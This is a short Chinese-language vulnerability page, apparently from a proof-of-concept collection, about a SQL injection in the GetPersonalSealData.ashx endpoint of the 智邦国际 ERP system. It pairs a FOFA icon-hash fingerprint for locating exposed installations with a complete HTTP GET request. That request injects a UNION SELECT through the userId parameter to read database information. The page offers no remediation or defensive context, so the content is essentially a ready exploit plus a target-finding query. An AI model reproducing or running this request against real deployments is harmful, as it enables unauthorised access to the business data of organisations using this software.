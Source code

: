 ## 智邦国际ERP-GetPersonalSealData.ashx存在SQL注入漏洞

智邦国际以“一体化”为顶层设计理念，全面布局产品生态，满足不同行业、不同管理层次、不同信息化程度的企业需求。智邦国际ERP系统GetPersonalSealData.ashx接口处存在sql注入漏洞，攻击者可利用此漏洞获取数据库敏感信息。

## fofa

```
icon_hash="-682445886"
```

## poc

```
GET /SYSN/json/pcclient/GetPersonalSealData.ashx?imageDate=1&userId=-1%20union%20select%20@@version-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300011850.png)